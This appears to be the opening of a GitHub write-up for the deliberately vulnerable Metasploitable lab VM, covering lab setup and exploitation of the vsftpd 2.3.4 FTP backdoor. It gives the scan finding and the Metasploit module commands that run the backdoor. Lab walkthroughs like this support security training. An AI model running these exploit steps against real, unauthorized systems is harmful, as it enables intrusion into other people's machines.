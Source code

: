 # Metasploitable-Writeup

## 📌 What is Metasploitable ? 

Metasploitable is an intentionally vulnerable Linux virtual machine that can be used to conduct security training, test security tools, and practice common penetration testing techniques. The VM will run on any recent VMware products and other visualization technologies such as VirtualBox.

## ⚙️ Prepare our pen-lab.

We will need : 
- [VMware](https://www.vmware.com/) , [VitrualBox](https://www.virtualbox.org/) or any other visualization product.
- installed a Linux Machine ( ideally [Kali Linux](https://www.kali.org/) or [Parrot Os](https://www.parrotsec.org/) )
- Installed [Metasploitable Machine](https://sourceforge.net/projects/metasploitable/)

> P.s. The Linux and Metasploitable machines should be in the same network group




## ⚈ FTP ( port : 21 ) Exploit

In our scan result we can see : <br/>
> 21/tcp   open  ftp         vsftpd 2.3.4<br/>
> ftp-anon: Anonymous FTP login allowed (FTP code 230)


**FTP Service (port:21) Exploit :**

- We will use the exploit [VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/).

1. use exploit/unix/ftp/vsftpd_234_backdoor
2. show options
3. set RHOSTS metasploit_ip
4. exploit
